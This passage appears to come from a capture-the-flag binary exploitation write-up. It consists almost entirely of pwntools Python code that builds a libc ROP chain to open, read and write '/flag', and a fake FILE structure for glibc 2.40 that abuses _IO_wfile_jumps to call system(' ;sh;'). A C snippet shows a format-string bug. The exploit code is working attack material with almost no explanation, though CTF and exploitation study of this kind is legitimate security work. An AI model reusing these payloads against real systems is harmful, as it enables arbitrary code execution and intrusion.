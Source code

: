 ```python


######################################################


libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xd0) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*2 + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)




```

‍

‍

## libc2.40

file

‍

```c
stream = fopen("/dev/null", "a");

    buf = malloc(BUF_SIZE);

    fprintf(stream, buf);
```

```c
fake_IO_addr = heap


# _IO_wfile_seekoff+98
# _IO_switch_to_wget_mode
pay = flat({
    0x00: ' ;sh;',
    0x18: libc.sym['system'],
    #0x20: fake_IO_addr, # 0x20 > 0x18
    0x20: libc.sym['system']+1, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
```